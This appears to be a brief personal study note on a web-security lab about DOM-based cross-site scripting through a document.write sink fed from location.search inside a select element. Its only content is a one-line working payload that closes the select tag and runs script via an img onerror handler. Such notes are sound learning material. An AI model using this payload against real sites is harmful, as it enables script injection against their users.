 ____

# DOM XSS in `document.write` sink using source `location.search` inside a select element

```html
"></select><img src=1 onerror=alert(1)>
```

![[Pasted image 20240804162601.png]]


